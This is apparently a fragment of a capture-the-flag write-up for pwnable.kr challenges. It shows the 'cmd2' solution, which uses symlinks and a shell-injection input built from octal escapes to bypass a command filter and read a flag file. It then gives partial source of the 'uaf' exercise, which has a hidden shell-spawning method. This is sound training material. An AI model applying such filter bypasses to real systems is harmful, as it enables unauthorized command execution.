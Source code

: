 mkdir /tmp/de && cd /tmp/de
ln -s /home/cmd2/flag lala
ln -s /bin/cat .
ln -s /home/cmd2/cmd2 .

cmd2@ubuntu:/tmp/de$ ./cmd2 '$(echo "\56")$(echo "\57")cat lala'
$(echo "\56")$(echo "\57")cat lala


Toddler's Bottle - uaf

#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};
